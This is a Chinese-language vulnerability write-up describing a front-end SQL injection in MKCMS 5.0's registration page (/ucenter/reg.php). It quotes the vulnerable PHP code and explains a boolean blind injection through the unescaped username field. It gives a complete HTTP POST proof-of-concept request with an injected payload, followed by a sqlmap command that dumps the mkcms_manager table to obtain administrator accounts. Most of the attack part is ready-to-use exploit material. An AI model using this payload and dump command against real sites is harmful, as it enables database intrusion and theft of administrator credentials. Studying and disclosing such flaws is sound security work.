 #### 漏洞详情： ####
漏洞出现在/ucenter/reg.php第7-19行:

    if(isset($_POST['submit'])){
    $username = stripslashes(trim($_POST['name']));
    // 检测用户名是否存在
    $query = mysql_query("select u_id from mkcms_user where u_name='$username'");
    if(mysql_fetch_array($query)){
    echo '<script>alert("用户名已存在，请换个其他的用户名");window.history.go(-1);</script>';
    exit;
    }
    $result = mysql_query('select * from mkcms_user where u_email = "'.$_POST['email'].'"');
    if(mysql_fetch_array($result)){
    echo '<script>alert("邮箱已存在，请换个其他的邮箱");window.history.go(-1);</script>';
    exit;
    }

注册用户名时$username参数传到后台后经过stripslashes()函数处理，而stripslashes()函数的作用是删除addslashes() 函数添加的反斜杠。这里就很郁闷了，过滤反斜杠干嘛？

当前页面无输出点，只是返回一个注册/未注册（通过if判断true或者false)，可以使用布尔盲注来解决这个问题


POC：

    POST /ucenter/reg.php HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:65.0) Gecko/20100101 Firefox/65.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en
    Accept-Encoding: gzip, deflate
    Referer: http://127.0.0.1/ucenter/reg.php
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 52
    Connection: close
    Cookie: PHPSESSID=cb8e6ccde6cf9050972fa9461d606be3
    Upgrade-Insecure-Requests: 1
    
    name=test' AND 1=1 AND 'inject'='inject&email=sss%40qq.com&password=ssssss&submit=

![1](KCMS5.0前台SQL注入.assets/20190223150855-e20a10fc-3739-1.jpg)

将POC中的数据包保存下来丢给sqlmap跑即可。

获取管理员账号：
    
    sqlmap -r inject.txt -D mkcms -T mkcms_manager --dump
![2](KCMS5.0前台SQL注入.assets/20190223150915-edf05c14-3739-1.jpg)

### 参考链接 ###
https://xz.aliyun.com/t/4189